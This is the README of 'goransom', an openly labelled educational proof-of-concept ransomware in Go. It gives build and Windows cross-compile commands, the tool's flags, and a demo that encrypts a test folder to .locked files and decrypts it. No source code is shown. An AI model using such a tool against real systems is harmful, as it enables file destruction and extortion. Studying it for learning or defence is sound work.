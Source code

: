 # goransom

<p align="center">
  <img alt="goransom" src="https://github.com/andpalmier/goransom/blob/master/thief_gopher.jpg?raw=true" />
  <p align="center">
    <a href="https://github.com/andpalmier/goransom/blob/master/LICENSE"><img alt="Software License" src="https://img.shields.io/badge/license-GPL3-brightgreen.svg?style=flat-square"></a>
    <a href="https://goreportcard.com/report/github.com/andpalmier/goransom"><img alt="Go Report Card" src="https://goreportcard.com/badge/github.com/andpalmier/goransom?style=flat-square"></a>
    <a href="https://twitter.com/intent/follow?screen_name=andpalmier"><img src="https://img.shields.io/twitter/follow/andpalmier?style=social&logo=twitter" alt="follow on Twitter"></a>
  </p>
</p>


This is a proof of concept for a simple ransomware written in Go. The purpose of this project is purely educative: I wrote `goransom` to get familiar with the language, this also means that the code is poorly written and organized.

**DO NOT USE THIS ON SYSTEMS WHERE YOU DON'T HAVE THE PERMISSION OF THE OWNER**

## Usage

After downloading the repository, navigate into the directory and build the project:

```
$ go build goransom.go
```

This will create an executable called `goransom`. You can then run the executable with the following flags:
- `-target`, to specify a folder or a file to encrypt/decrypt. If it's a directory, all the files contained in the given folder will be encrypted/decrypted.
- `-secret`, to specify the secret which is used to derive the key for the encryption/decryption.
- `-decrypt`, to be specified if we want to decrypt a file or a folder.

If you are building it for Windows on Linux, use:

```
$ GOOS=windows GOARCH=386 go build -o goransom.exe goransom.go
```

But be careful, Windows defender does not like goransom:

![](windows_def.png)


### Example

```
$ tree
.
├── goransom
└── testfolder
    └── testfile

$ cat testfolder/testfile
THIS IS A SUPER IMPORTANT FILE, PLEASE DON'T TAKE IT AWAY FROM ME

$ ./goransom -secret supersecret -target testfolder
Operating on testfolder
Operating on testfolder/testfile

$ tree
.
├── goransom
└── testfolder
    └── testfile.locked

$ cat testfolder/testfile.locked
�C4�w��i�G⛘]+�~O(�@f1
                     �<
                       �0k><�ZlEV&yj��;)�[1m%

$ ./goransom -secret supersecret -target testfolder -decrypt
Operating on testfolder
Operating on testfolder/testfile.locked

$ tree
.
├── goransom
└── testfolder
    └── testfile

$ cat testfolder/testfile
THIS IS A SUPER IMPORTANT FILE, PLEASE DON'T TAKE IT AWAY FROM ME
```


